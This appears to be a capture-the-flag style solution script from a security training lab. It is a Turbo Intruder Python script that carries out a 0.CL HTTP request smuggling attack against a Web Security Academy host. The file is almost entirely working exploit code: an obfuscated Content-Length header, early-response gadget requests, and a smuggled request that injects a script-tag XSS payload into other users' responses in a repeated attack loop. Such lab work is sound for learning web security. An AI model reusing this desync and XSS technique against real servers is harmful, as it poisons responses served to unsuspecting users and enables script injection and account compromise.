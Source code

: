 ### LAB: 0.CL request smuggling
Turbo Intruder script:
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           requestsPerConnection=1,
                           engine=Engine.BURP,
                           maxRetriesPerRequest=0,
                           timeout=15
                           )

    host = '0a09006e033991a4809cf37f0076008e.web-security-academy.net'

    # The attack should contain an early-response gadget and a (maybe obfuscated) Content-Length header with the value set to %s
    attack1 = '''GET /resources/labheader/js/labHeader.js HTTP/1.1
Host: '''+host+'''
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br
Accept: /
Connection: keep-alive
Content-Length : 76

'''

    # This will get prefixed to the victim's request - place your payload in here
    attack2 = '''GET /resources/labheader/js/labHeader.js HTTP/1.1
Content-Length: 1234
X: GET /resources/css/labsBlog.css HTTP/1.1
Host: '''+host+'''
Accept-Encoding: gzip, deflate, br
Accept: /
Connection: keep-alive

HEAD /post/comment/confirmation?postId=6 HTTP/1.1
Host: '''+host+'''
Connection: keep-alive

GET /resources?hh=<script>alert(1)</script>'''+('A'*6500)+''' HTTP/1.1
X: y'''

    victim = '''GET / HTTP/1.1
Host: '''+host+'''
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Connection: close

'''

    while True:
        for x in range(7):
            engine.queue(attack1, label="attack1")
            engine.queue(attack2, label="attack2")
#            engine.queue(victim, label="victim")
        


def handleResponse(req, interesting):
    table.add(req)

    # 0.CL attacks use a double desync so they can take a while!
    # Uncomment & customise this if you want the attack to automatically stop on success
```